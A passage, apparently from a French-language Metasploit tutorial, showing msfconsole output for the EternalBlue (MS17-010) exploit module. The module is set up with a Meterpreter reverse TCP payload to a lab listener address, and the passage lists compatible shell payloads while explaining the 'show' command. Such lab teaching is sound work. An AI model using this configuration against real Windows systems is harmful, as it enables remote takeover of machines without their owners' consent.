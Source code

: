 ```shell
	VERIFY_TARGET true            yes Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp): 

Name     Current Setting Required Description
----     --------------- -------- ----------- 
EXITFUNC thread          yes      Exit technique (Accepted: '', seh, thread, process, none) 
LHOST    10.10.220.191   yes      The listen address (an interface may be specified) 
LPORT    4444            yes      The listen port

Exploit target: 

	Id Name 
	-- ---- 
	0  Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

### Show

La commande **`show`**  peut être utilisé avec tout type de modules, si elle est exécuté à partir de l'invite msfconsole, elle **listera tous les modules**.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show payloads

Compatible Payloads
===================

#  Name                                       Disclosure Date Rank   Check Description
-  ----                                       --------------- ----   ----- ----------- 
0  generic/custom                                             manual No    Custom Payload
1  generic/shell_bind_tcp                                     manual No    Generic Command Shell, Bind TCP Inline
2  generic/shell_reverse_tcp                                  manual No    Generic Command Shell, Reverse TCP Inline 
3  windows/x64/exec                                           manual No    Windows x64 Execute Command 
4  windows/x64/loadlibrary                                    manual No    Windows x64 LoadLibrary Path
5  windows/x64/messagebox                                     manual No    Windows MessageBox x64 
6  windows/x64/meterpreter/bind_ipv6_tcp                      manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
7  windows/x64/meterpreter/bind_ipv6_tcp_uuid                 manual No    Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
```

### Back
